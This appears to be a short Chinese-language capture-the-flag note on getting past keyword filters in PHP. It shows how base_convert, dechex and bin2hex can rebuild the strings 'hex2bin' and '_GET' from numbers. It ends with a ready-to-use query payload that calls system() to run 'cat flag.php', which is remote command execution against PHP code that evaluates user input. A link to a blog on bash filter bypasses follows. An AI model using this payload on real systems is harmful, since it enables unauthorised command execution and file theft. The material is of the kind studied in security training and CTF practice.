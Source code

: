 > base_convert     #在任意进制之间转换数字。
> hexdec 			 #把十六进制转换为十进制。
> dechex 			#把十进制转换为十六进制。
> hex2bin  		#把十六进制的字符串转换为ASCII码

```
// 把 hex2bin转化为10进制
echo base_convert("hex2bin", 36, 16);   //37907361743
echo "\n";
echo base_convert("8d3746fcf", 16, 36);  //hex2bin
echo "\n";
//把_GET 先转为16进制再转为10进制
echo hexdec(bin2hex("_GET"));  //1598506324
echo "\n";
echo base_convert("8d3746fcf", 16, 36)(dechex("1598506324"));  // 绕过过滤拿到 "_GET"
```

```
c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos})&abs=system&acos=cat%20flag.php
$$pi{abs}($$pi{acos})  #相当于 $_GET['abs']($_GET['acos'])
```



[bash绕过方式]: https://blog.51cto.com/u_15127695/4278470	"bash绕过方式"